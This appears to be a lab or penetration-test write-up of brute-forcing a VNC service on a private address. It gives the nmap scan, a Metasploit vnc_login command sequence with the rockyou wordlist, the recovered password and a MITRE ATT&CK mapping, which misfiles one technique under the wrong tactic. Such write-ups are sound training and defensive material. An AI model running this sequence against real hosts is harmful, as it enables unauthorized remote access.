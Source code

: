 # VNC Brute-Force Access (Port 5900)

## 🔍 Service Details

- **Service**: VNC (Virtual Network Computing)
- **Port**: 5900
- **Protocol Version**: 3.3
- **Security Type**: VNC Authentication (2)
- **Scan Tool**: Nmap
- **Command Used**:

  nmap -p 5900 --script vnc-info 192.168.6.3

  # Attack Strategy

  The target exposes a VNC service without any encryption, using only basic password-based authentication. We attempted a brute-force attack against the service using the default vncviewer client.

# Brute-force Details

Tool Used: Metasploit Framework

Module: auxiliary/scanner/vnc/vnc_login

Wordlist: /usr/share/wordlists/rockyou.txt

# Command Sequence:

msfconsole
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.6.3
set RPORT 5900
set PASS_FILE /usr/share/wordlists/rockyou.txt
run

# Credentials Discovered

- password : password(See screenshot)

# Post-Exploitation Access

After discovering the password, we accessed the remote VNC desktop session using the built-in vncviewer.

Using the command: vncviewer 192.168.6.3:5900
- prompted for password: password

Successfully connected to the remote GUI environment


# MITRE ATT&CK Mapping

Initial Access / Valid Accounts, T1078.001, Valid Accounts: Default Accounts, Attackers leveraged a weak/default VNC password (password) to gain unauthorized access.

Command and Control, T1021.001, Remote Services: Remote Desktop Protocol, Although RDP is not used, VNC fits the same category of remote desktop access. Adversaries used VNC to establish GUI-based control over the system.

Discovery, T1016, System Network Configuration Discovery, After access, attackers may explore the environment using the graphical interface, including network configs and system details.